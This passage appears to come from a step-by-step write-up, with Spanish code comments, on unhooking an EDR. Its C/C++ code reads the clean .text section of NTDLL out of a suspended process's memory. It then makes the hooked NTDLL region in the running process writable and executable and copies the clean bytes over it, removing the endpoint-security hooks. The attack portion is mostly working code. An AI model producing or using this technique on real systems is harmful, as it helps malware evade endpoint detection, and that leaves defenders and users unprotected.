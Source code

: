 ```c
							//Si es la seccion text estamos de suerte
							if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text"))
						...
```

9. We get the size of the text section, copying the content of that in .text section of the NTDLL belonging to the parent process.

```c
									...
									unsigned long long size_section = hookedSectionHeader->Misc.VirtualSize;
									//Guardamos el addr de la seccion text (coincide con el addr de mi propia seccion text de mi dll, gracias microsoft!!
									unsigned long long hookedAddr = hookedSectionHeader->VirtualAddress;
									addr = LPVOID((unsigned long long)addr + hookedSectionHeader->VirtualAddress);
									//Comprobamos el tamano de memoria que podemos leer de ahi, para que no de por saco
									VirtualQueryEx(hProc, addr, &basic, sizeof(MEMORY_BASIC_INFORMATION));
									delete[] buffer;

#ifdef _M_X64 
									/*Ese numero es por tema de padding, sino anade byte nulls al final que no hacen falta*/
									buffer = new char[basic.RegionSize - 2000];
									/*Leemos la seccion text de la dll del proceso suspendido*/
									bSuccess = ReadProcessMemory(hProc, addr, buffer, basic.RegionSize - 2000, &bytesRead);
									if (!bSuccess)
									{
										printf("Error reading the last: %d\n", GetLastError());
										return 0;
									}
									//Por motivos de debug si quieres puedes dumpearla ;) 
									/*FILE* fp = fopen("C:\\Temp\\log_text.txt", "wb+");
									fwrite(buffer, bytesRead, 1, fp);
									fclose(fp);*/

									DWORD oldProtection, oldProtection2 = 0;
									/*
									Cambiamos el protect de esa zona para darnos permisos de escritura, y luego
									finalmente escribimos la DLL que habiamos leido antes en el proceso suspendido en
									mi DLL hookeada por el EDR*/

									bool isProtected = VirtualProtect((LPVOID)((unsigned long long)ntdllBase + (unsigned long long)hookedAddr), basic.RegionSize - 2000, PAGE_EXECUTE_READWRITE, &oldProtection);

									/*¡¡Thanks to ired.team i didn´t lost my mind trying to calculate that address!!*/
									/*https://www.ired.team/offensive-security/defense-evasion/how-to-unhook-a-dll-using-c++*/


									memcpy((LPVOID)((unsigned long long)ntdllBase + (unsigned long long)hookedAddr), buffer, basic.RegionSize - 2000);
									...
```
